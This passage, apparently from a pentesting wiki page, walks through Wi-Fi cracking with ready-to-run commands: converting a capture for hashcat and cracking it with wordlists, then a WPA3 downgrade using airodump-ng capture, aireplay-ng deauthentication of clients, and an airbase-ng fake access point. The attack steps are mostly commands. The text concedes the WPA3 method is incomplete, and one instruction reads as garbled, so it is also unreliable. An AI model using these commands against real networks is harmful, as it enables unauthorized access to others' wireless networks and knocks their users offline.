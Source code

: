 ```bash
hcxpcapngtool -o output.hc22000 output.pcapng
```

Finally, we can use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat)
to crack the hash. You will need to import the `cracking` module. You can use
the following command to try to crack the hash using a wordlist and a rule file,
but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o output -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule output.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to
capture the handshake. To do this, we need to change our approach on the WPA2 AP
part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" "$interface"
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following
command:

```bash
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e "$ssid" -c "$channel" -P -C 30 -Z 4 "$interface"
```

This will create a fake AP with the specified SSID and channel, however, this is
not a true WPA2 AP, which does not allow us to capture the handshake. To do
this, we need to use a different method. This is the only thing missing to make
WPA3 cracking work.

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel "$channel" --bssid "$fake_bssid" --write out "$interface"
```
